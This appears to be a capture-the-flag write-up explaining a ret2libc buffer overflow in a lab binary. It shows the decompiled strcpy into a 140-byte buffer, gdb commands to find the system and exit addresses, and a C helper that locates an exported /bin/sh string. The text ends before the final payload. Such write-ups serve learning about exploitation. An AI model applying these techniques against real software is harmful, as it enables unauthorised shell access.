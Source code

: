 
# ZAZ

# Exploit the binary

A basic exploit of strcpy without security on the parameter.

## Explication of the exploit

Using ghidra, we can retrieve the main: 
```c
uint main(int param_1,int param_2)

{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return (uint)(param_1 < 2);
}
```

We can see that the buffer is set to 140 and the program is strcpying the param into local90 withtout any limit. So when you write more than 140 chars, it will segfault because you will be trying to rewrite the EIP (the return adress).

### What are we gonna do about it ?

#### Getting system, exit and "/bin/sh adress"

We actually want to rewrite EIP with the adress of [system] so we can execute [/bin/sh].
To do it properly, we need to launch gdb set a breakpoint in main and start the prohgram to initialize the stack and get the adress.
```sh
gdb exploit_me
b main
r
p system --> $1 = {<text variable, no debug info>} 0xb7e6b060 <system>
p exit --> $2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```
Next, we will need to find an adress that contains the string "/bin/sh", and to be sure there is one, we're gonna create it by exporting as an environment variable.

```sh
export SHELLSH=/bin/sh
```
And then we are gonna create a c script that's gonna give us the approximativ adress:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char **argv)
{
        char *ptr = getenv("SHELLSH");
        if (ptr != NULL)
        {
                printf("Estimated address: %p\n", ptr);
                return 0;
        }
}
```
